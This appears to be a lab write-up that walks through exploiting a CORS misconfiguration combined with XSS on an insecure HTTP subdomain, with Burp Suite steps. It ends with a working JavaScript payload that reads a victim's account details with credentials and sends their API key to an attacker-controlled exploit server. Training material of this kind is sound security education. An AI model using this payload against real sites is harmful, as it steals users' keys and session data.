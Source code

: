 ## CORS Javasceript files

> CORS vulnerability with trusted insecure protocols

-With your browser proxying through Burp Suite, turn intercept off, log into your account, and click "Account Details".

-  Review the history and observe that your key is retrieved via an AJAX request to /accountDetails, and the response contains the Access-Control-Allow-Credentials header suggesting that it may support CORS.

- Send the request to Burp Repeater, and resubmit it with the added header Origin: http://subdomain.lab-id where lab-id is the lab domain name.

- Observe that the origin is reflected in the Access-Control-Allow-Origin header, confirming that the CORS configuration allows access from arbitrary subdomains, both HTTPS and HTTP.

- Open a product page, click "Check stock" and observe that it is loaded using a HTTP URL on a subdomain.

- Observe that the productID parameter is vulnerable to XSS.

- Now browse to the exploit server, enter the following HTML, replacing $your-lab-url with your unique lab URL and $exploit-server-url with your exploit server URL and test it by clicking "view exploit":



```javascript
<script>
   document.location="http://stock.$your-lab-url/?productId=4<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://$your-lab-url/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://$exploit-server-url/log?key='%2bthis.responseText; };%3c/script>&storeId=1"
</script>
```


